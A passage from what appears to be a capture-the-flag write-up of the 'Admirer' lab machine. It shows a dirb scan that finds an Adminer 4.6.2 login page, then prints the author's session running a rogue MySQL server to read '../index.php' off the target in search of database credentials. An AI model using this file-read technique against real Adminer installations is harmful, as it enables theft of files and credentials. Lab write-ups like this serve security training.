     START_TIME: Tue May  5 05:55:58 2020
    URL_BASE: http://10.10.10.187/utility-scripts/
    WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt
    EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

    -----------------

    GENERATED WORDS: 20458

    ---- Scanning URL: http://10.10.10.187/utility-scripts/ ----
    + http://10.10.10.187/utility-scripts/adminer.php (CODE:200|SIZE:4295)

## Adminer

[Adminer](https://www.adminer.org/) is a tools to manage your database directly
from your browser. It is a [phpmyadmin](https://www.phpmyadmin.net/)
alternative.

Obviously we land on a login page. The previously found credentials doesn't work.
But looking at the page, we see that the used version is "4.6.2" and that the
last version is "4.7.6".

![adminer page](/media/2020.09/admirer_02.png)

We Google for "adminer 4.6.2 exploit" and found an article about a
[serious vulnerability in adminer tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

We just need a [Rogue MySql Server](https://github.com/allyshka/Rogue-MySql-Server).
We launch it and start getting some files. We try `db_connect.php` but the file
was obviously replace by `adminer.php`. We can retrieve `adminier.php` just to
be sure that our exploit is working. Then we just retrieve `../index.php` which
contain the new creds for the database.

    :::text
    kali@kali:~/Rogue-MySql-Server$ php roguemysql.php
    Enter filename to get [db_connect.php] > ../index.php
    [.] Waiting for connection on 0.0.0.0:3306
    [+] Connection from 10.10.10.187:47566 - greet... auth ok... some shit ok... want file...
    [+] ../index.php from 10.10.10.187:47566:
    <!DOCTYPE HTML>
    <!--
            Multiverse by HTML5 UP
            html5up.net | @ajlkn
            Free for personal and commercial use under the CCA 3.0 license (html5up.net/license)
    -->
    <html>
            <head>
                    <title>Admirer</title>
                    <meta charset="utf-8" />
                    <meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no" />
                    <link rel="stylesheet" href="assets/css/main.css" />
                    <noscript><link rel="stylesheet" href="assets/css/noscript.css" /></noscript>
            </head>
            <body class="is-preload">
